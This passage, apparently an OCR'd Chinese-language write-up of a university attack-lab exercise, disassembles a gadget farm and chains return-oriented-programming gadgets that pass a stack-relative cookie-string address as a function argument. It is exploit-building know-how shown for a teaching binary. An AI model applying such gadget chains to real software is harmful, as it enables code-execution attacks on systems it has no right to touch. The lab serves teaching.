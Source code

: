提取代码：

```asm
4019c5:
  movq %rax %rdi # 48 89 c7
  nop            # 90
  ret            # c3
```

这条途径将%rax中的值传送给第一个参数寄存器%rdi。

```
00000000004019db <getval_481>:
  4019db:	b8 5c 89 c2 90       	mov    $0x90c2895c,%eax
  4019e0:	c3                   	retq   

0000000000401a33 <getval_159>:
  401a33:	b8 89 d1 38 c9       	mov    $0xc938d189,%eax
  401a38:	c3                   	retq   

0000000000401a11 <addval_436>:
  401a11:	8d 87 89 ce 90 90    	lea    -0x6f6f3177(%rdi),%eax
  401a17:	c3                   	retq   
```

提取代码如下：

```asm
4019dd:
  movl %eax %edx # 89 c2
  nop            # 90
  ret            # c3

401a34:
  movl %edx %ecx # 89 d1
  nop            # 38 c9
  ret            # c3

401a13:
  movl %ecx %esi # 89 ce
  nop            # 90
  nop            # 90
  ret            # c3
```

这条途径通过三个步骤将%eax的值传送给第二个参数寄存器%esi，且过程中不影响第一个参数寄存器%edi。

整理一下所有的gadgets：

```asm
401a06: movq %rsp %rax # 取出当前的栈指针到%rax
4019c5: movq %rax %rdi # 将这个指针传送到param1

4019ab: popq %rax      # 从栈上弹出实现确定好的偏移量
4019dd: movl %eax %edx
401a34: movl %edx %ecx
401a13: movl %ecx %esi # 将偏移量传送到param2

4019d6: lea (%rdi,%rsi,1),%rax # 将两个值相加，得到cookie串的地址
4019c5: movq %rax %rdi # 将cookie串指针传送到param1
```
